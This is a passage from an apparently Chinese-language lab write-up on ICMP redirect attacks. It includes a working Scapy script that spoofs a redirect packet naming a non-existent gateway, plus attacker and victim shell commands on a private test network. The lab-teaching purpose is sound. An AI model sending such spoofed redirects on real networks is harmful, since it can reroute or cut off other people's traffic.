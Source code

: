 在 attacker 上运行：

```shell
attacker-10.9.0.105$ icmp.py
.
Sent 1 packets.
```

此时查看 victim 的路由：

```shell
victim-10.9.0.5$ mtr -n 192.168.60.5
```

![Launching ICMP Redirect Attack 路由未改变](/assets/post/images/icmp4.webp)

可以看出，此时没有变化。

> Question 2: Can you use ICMP redirect attacks to redirect to a non-existing machine on the same network? Namely, the IP address assigned to icmp.gw is a local computer that is either offline or non-existing. Please show your experiment result, and explain your observation.

修改程序：

```python
#!/usr/bin/python3

from scapy.all import *

ip = IP(src = '10.9.0.11', dst = '10.9.0.5')
icmp = ICMP(type=5, code=1)
icmp.gw = '10.9.0.99'

# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = '10.9.0.5', dst = '192.168.60.5')
send(ip/icmp/ip2/ICMP());
```

然后保持 victim ping `192.168.60.5`：

```shell
victim-10.9.0.5$ ping 192.168.60.5 &
```

清空 cache：

```shell
victim-10.9.0.5$ ip route flush cache
```
